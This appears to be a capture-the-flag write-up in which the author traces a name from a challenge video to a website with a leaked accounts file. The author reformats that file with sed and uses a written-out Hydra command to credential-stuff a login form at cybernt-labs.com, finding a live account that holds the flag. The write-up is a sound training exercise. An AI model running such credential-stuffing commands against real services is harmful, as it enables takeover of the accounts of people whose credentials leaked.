 #Challenge 

## Steps to Solve the Challenge

1. **Identifying the Name**:
   - In the challenge video, we saw the name <**stikked**> at the **0:21** timestamp.
![Screenshot 2024-12-19 123732](https://github.com/user-attachments/assets/501d3823-eab3-4557-b233-af7e6ffee0ce)

2. **Finding the Relevant Post**:
   - Searching the latest posts for the name **stikked** led us to a post that linked to their website.
![Screenshot 2024-12-19 123802](https://github.com/user-attachments/assets/6e5741a4-38d6-428f-9e1d-b6ce4d84ced3)

3. **Discovering the Data Leak**:
   - On their website, I navigated to the **Recent** tab and found the accounts file under a section about a data leak.
![Screenshot 2024-12-19 123856](https://github.com/user-attachments/assets/e6ff7b12-3465-4128-9bf5-6e1928500d8b)
  
4. **Editing the Accounts File**:
   - To make the file compatible with Hydra, I replaced `--` with `:` using the following command:

     ```bash
     sed -i 's/ -- /:/g' accounts.txt
     ```
![Screenshot 2024-12-19 124019](https://github.com/user-attachments/assets/cc8d7231-4f0e-47fe-a54a-b55dd10d7776)

5. **Using Hydra to Test Credentials**:
   - I used Hydra to test the accounts with the following command:
     ```bash
     hydra -C accounts.txt cybernt-labs.com -s 443 https-post-form "/api/login:email=^USER^&pass=^PASS^:your account has been disabled" -V
     ```

6. **Finding an Active Account**:
   - Hydra identified one account that was still active.
   
![Screenshot 2024-12-19 124143](https://github.com/user-attachments/assets/b75f0f06-0d47-43e3-973d-efbaf338a3ad)

 7. **Logging In and Finding the Flag**:
   - After logging into the website with the active account, I found the user ID, which turned out to be the flag for the challenge.

![Screenshot 2024-12-19 124219](https://github.com/user-attachments/assets/e8a2ea94-1cb8-4942-8d6d-5d507e09390f)
